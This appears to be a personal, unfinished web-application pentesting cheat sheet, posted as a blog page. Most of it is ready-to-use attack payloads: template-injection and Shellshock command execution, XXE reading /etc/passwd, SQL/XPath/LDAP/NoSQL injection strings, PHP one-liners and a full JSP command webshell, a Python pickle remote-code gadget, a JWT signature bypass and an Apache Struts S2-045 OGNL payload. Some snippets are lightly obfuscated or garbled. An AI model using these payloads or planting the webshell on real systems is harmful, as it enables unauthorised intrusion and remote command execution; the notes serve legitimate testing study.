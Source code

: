 ```yaml
---
title: Web Application Methodology
date: 2021-09-19
categories:
  - Notes
tags:
  - Web App
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


WIP
<!--more-->


<style>
  .fieldset
  {
      border:2px solid black;
      -moz-border-radius:8px;
      -webkit-border-radius:8px;	
      border-radius:8px;	
      font-size:12px;
      padding:10px;
      width:250px;
  }
  </style>

<h2 id="wtdvsawbapp">What to do vs a Web App</h2>

<ul>
    <li>check website is it php,asp or html</li>
    <li>check source code does it use cms</li>
    <li>Check robots.txt/sitemap.xml</li>
    <li>chech cert for useful info - subdomain?</li>
    <li>Gobuster dir and subdomain</li>
    <li>nikto</li>
    <li>Authorization vulns</li>
    <li>Code Injections? - can you control an input/data - eval(input)</li>
    <li>sqli? - https://www.hackingarticles.in/bypass-filter-sql-injection-manually/</li>
    <li>xxs?</li>
    <li>WIP</li>
    <li>SSRF</li>
    <li>phpmailer</li>
    <li>ruby - render -inline <%= `id %></li>
    <li>Server-side template injection - {{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}} or {{url_for.__globals__.os.popen("id").read() }} or TPLMAP.py</li>
    <li>CSRF - <.img src="https://vulnerable-website/email/change?email=pwned@evil-user.net"> or tool=xsrfprobe</li>
    <li>xml entities - <!DOCTYPE test [
      <!ENTITY x SYSTEM "file:///etc/paxswd">]></li>
      <li>xpath - hacker']%00 or hacker' or 1=1]%00 --- ?name=hacker' or 1=1]/parent::*/child::node()%00&password=sdf</li>
      <li>objectinputstream- exploitation of a call to readObject - rO0 in cookie</li>
</ul>

<h2>ldap</h2>
<li>null bind - delete username&password data in body</li>
<li>ldap wildcard - adm*))%00</li>

<h2>mongodb</h2>
<li>injection? - hyst'|| 1==1 %00</li>


<h2>basic php oneliner</h2>
<code>php system($requests['hyst']); ?></code>
<code>?php system($_GET["cmd"]);?></code>
<code>?php print exec('command'); ?></code>



<h2>shellshock</h2>
<code>() { :;}; echo; `command`</code>
<p>echo to add a black space between headers and body output</p>

<h2>JWT</h2>
<p>header.data.signature - all in base64</p>
<p>set alg to None - remove signature </p>



<h2>apache and tomcat</h2>
<p>encoding of .. = %252e%252e</p>
<p>/manager/html</p>

<fieldset>
  
  <legend>webshell</legend>
  <pre><code>
    <.FORM METHOD=GET ACTION='index.jsp'>
    <.INPUT name='cmd' type=text>
    <.INPUT type=submit value='Run'>
    <./FORM>
    <%@ page import="java.io.*" %>
    <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+"<./br>"; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <.pre><%=output %><./pre></code></pre>

      <p>remove dots after "<" save as .jsp</p>

</fieldset>

<h2>serialization</h2>
<h4>Python</h4>
<p>Pickle</p>

<fieldset>
  
  <legend>Python Serialization</legend>
  <pre><code>
    asdmport cPickle
    asdmport os
    
    asdclass Blah(object):
      def __reduce__(self):
        return (os.system,('command'.))'
    
    
    b = Blah()
    print cPickle.dumps(b)
    
  </code></pre>
</fieldset>

<li>run script</li>
<li>base64 encode result</li>
<li>replace server thingy</li>


<h2>xml</h2>
<p>https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md</p>



<h2>ECB Vuln</h2>

<fieldset>
  
  <legend>ECB ruby to decode</legend>
  <pre><code>
% irb
> require 'base64' ; require 'uri'
 => true
> Base64.decode64(URI.decode("OR9hcp18%2BC1bChK10NlRRg%3d%3d"))
 => "9\x1Far\x9D|\xF8-[\n\x12\xB5\xD0\xD9QF"
  </pre></code>

</fieldset>

<h2>lfi/rfi</h2>
<p>https://raghavtalwar4.gitbook.io/privilege-escalation-cheatsheet/owasp-top-10-and-more/lfi-rfi-cheatsheet</p>
g0tmilk
asd__import__('os').system('/bin/sh')asd  


<h2>.git - dump</h2>

<h2>command injection</h2>
<p>what to look for</p>
<li>app</li>



<h2>apache struts s2-045</h2>
<p>detection</p>
<code>"%{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getWriter())).(#ros.print('\ntest\n\n'))}"</code>